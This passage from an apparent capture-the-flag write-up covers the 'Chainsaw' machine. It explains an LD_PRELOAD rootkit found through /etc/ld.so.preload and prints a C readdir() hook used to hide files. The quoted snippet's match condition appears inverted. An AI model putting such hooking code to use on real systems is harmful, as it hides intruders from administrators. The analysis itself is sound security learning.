 So why doesn’t the similar process for 63991 show up?

The case breaks open when I try to run `tcpdump`:

```

root@chainsaw:~/ChainsawClub# tcpdump 
ERROR: ld.so: object '/usr/$LIB/chainsaw.so' from /etc/ld.so.preload cannot be preloaded (failed to map segment from shared object): ignored.
tcpdump: error while loading shared libraries: libcrypto.so.1.1: failed to map segment from shared object

```

## LD\_PRELOAD Rootkits

I recently read a really well written [blog post from h0mbre](https://h0mbre.github.io/Learn-C-By-Creating-A-Rootkit/) that explains what’s going on here. This is an LD\_PRELOAD rootkit. It runs by loading a library that exports certain system calls using LD\_PRELOAD, such that when they are called, it can modify the expected result. To pull this off, all one has to do is put this library on disk, and then reference it in `/etc/ld.so.preload`. On Chainsaw, I see that’s the case:

```

root@chainsaw:~/ChainsawClub# cat /etc/ld.so.preload
/usr/$LIB/chainsaw.so

```

h0mbre’s post walks through this in great detail, but one example would be to hook `readdir()` with the following code:

```

struct dirent *(*old_readdir)(DIR *dir);
struct dirent *readdir(DIR *dirp)
{
    old_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *dir;

    while (dir = old_readdir(dirp))
    {
        if(strstr(dir->d_name,FILENAME) == 0) break;
    }
    return dir;
}

```

First, it gets a reference to the original `readdir()` function using `dlsym`, and saves it as `old_readdir`. Then it calls that function, checking to see if any of the results match `FILENAME`, and if so, it breaks so that filename isn’t sent back. You can hook any functions you want, and put whatever logic you want in to mess with the results.
